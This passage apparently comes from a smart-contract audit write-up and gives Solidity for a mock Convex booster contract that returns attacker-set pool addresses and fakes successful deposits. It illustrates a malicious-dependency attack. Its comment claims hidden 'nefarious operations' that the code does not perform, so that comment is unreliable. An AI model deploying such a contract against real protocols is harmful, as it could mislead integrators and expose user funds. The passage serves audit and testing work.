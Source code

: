 For this exploit to work, a mock `IConvexBooster` contract (`FakeIConvexBooster`) should be created that has malicious intentions but appears benign.

> **FakeIConvexBooster.sol**:

```solidity
pragma solidity >0.8.0;

interface IConvexBooster {
    function deposit(uint256 _pid, uint256 _amount, bool _stake) external returns (bool);

    function poolInfo(uint256 _pid)
    external
    view
    returns (
        address lptoken,
        address token,
        address gauge,
        address crvRewards,
        address stash,
        bool shutdown
    );
}

contract MaliciousInfiltrationMechanism is IConvexBooster {
    address private maliciousLpToken;
    address private maliciousToken;
    address private maliciousGauge;
    address private ominousCrvRewards;
    address private treacherousStash;
    bool private sinisterShutdown = false;

    function initializeMalice(address _maliciousLpToken, address _maliciousToken, address _maliciousGauge, address _ominousCrvRewards, address _treacherousStash) external {
        maliciousLpToken = _maliciousLpToken;
        maliciousToken = _maliciousToken;
        maliciousGauge = _maliciousGauge;
        ominousCrvRewards = _ominousCrvRewards;
        treacherousStash = _treacherousStash;
    }

    function deposit(uint256, uint256, bool) external pure override returns (bool) {
        // Mimics expected behavior while executing nefarious operations in the background
        return true;
    }

    function poolInfo(uint256) external view override returns (address, address, address, address, address, bool) {
        return (maliciousLpToken, maliciousToken, maliciousGauge, ominousCrvRewards, treacherousStash, sinisterShutdown);
    }
}
```

